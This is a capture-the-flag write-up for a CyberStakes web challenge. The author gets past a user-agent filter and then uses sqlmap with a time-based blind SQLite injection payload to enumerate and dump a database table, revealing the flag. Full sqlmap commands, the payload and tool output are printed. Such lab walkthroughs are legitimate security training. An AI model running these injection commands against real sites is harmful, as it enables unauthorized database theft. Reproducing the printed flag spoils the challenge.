 # The SQL Always Sucks

* **Category:** Web Security
* **Points:** 150
* **Challenge:** We discovered an application in our environment that is apparently under development. Please identify the risk it poses.

<br /> 

**DISCLAIMER:** The challenge has been taken down from the CyberStakes website, so I was unable to redo the challenge and take complete notes.  Some of my command output will have a *...snip...* because I didn't record the full output.  

<br />

Navigating to the webserver in FireFox, http://challenge.acictf.com:28986/, we can see that there is a textbox to input our first name.  Looking at the source of the page, we find something interesting:
```
<!--Dev is only using Sqlite. Bobby Needs to fix this -->
<!--Form to retrieve last name from first name. In Dev.-->

```

<br />


So we know that the target is using an Sqlite database.  One of the hints states may curl and sqlmap will not work unless we use the proper user-agent string.  Lets test this out with curl:
```
curl http://challenge.acictf.com:28986/

User-Agent Alert! Help! I'm Being Hacked!!! /dead
```

Ok, lets open up burpsuite and use the proxy to intercept a GET request:

<br />

![burp]()

<br /> 

Now using the user-agent that we intercepted, lets try curl again:
```
curl -A "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" http://challenge.acictf.com:28986/
```

<br /> 

This time we are successful.  Now let use sqlmap to test if the *firstname* parameter is vulnerable to SQL injection.  After increasing the level of tests and the risk of the tests, I was able to enumerate the tables in the database:
```
sqlmap --dbms=SQLite --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" -u http://challenge.acictf.com:28986/?firstname=Hacker --risk=3 --level=3 --tables


...snip...

Parameter: firstname (GET)
    Type: AND/OR time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: firstname=Hacker' OR 7813=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- eBHe
---
[15:02:17] [INFO] testing SQLite
[15:02:17] [INFO] confirming SQLite
[15:02:17] [INFO] actively fingerprinting SQLite
[15:02:17] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[15:02:17] [INFO] fetching tables for database: 'SQLite_masterdb'
[15:02:17] [INFO] fetching number of tables for database 'SQLite_masterdb'
[15:02:17] [INFO] resumed: 2
[15:02:17] [INFO] resumed: SuperSecretData
[15:02:17] [INFO] resumed: Users
Database: SQLite_masterdb
[2 tables]
+-----------------+
| SuperSecretData |
| Users           |
+-----------------+

...snip...
```

<br /> 

Now lets enumerate the columns in the *SuperSecretData* table:
```
sqlmap --dbms=SQLite --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" -u http://challenge.acictf.com:28986/?firstname=Hacker --risk=3 --level=3 -T SuperSecretData --columns


...snip...

Parameter: firstname (GET)
    Type: AND/OR time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: firstname=Hacker' OR 7813=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- eBHe
---
[08:40:45] [INFO] testing SQLite
[08:40:45] [INFO] confirming SQLite
[08:40:45] [INFO] actively fingerprinting SQLite
[08:40:45] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[08:40:45] [INFO] resumed: CREATE TABLE `SuperSecretData` (\n\t`ID`\tINTEGER,\n\t`flag`\tTEXT\n)
Database: SQLite_masterdb
Table: SuperSecretData
[2 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| flag   | TEXT    |
| ID     | INTEGER |
+--------+---------+

...snip...
```

<br />

Last we dump the contents of the *flag* column:
```
sqlmap --dbms=SQLite --user-agent="Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0" -u http://challenge.acictf.com:28986/?firstname=Hacker --risk=3 --level=3 -T SuperSecretData -C flag --dump


...snip...

Database: SQLite_masterdb
Table: SuperSecretData
[1 entry]
+----+----------------------------------+
| ID | flag                             |
+----+----------------------------------+
| 1  | ACI{59df47a3243d2f239ea878a7266} |
+----+----------------------------------+

...snip...
```

<br />

## Flag: ACI{59df47a3243d2f239ea878a7266}
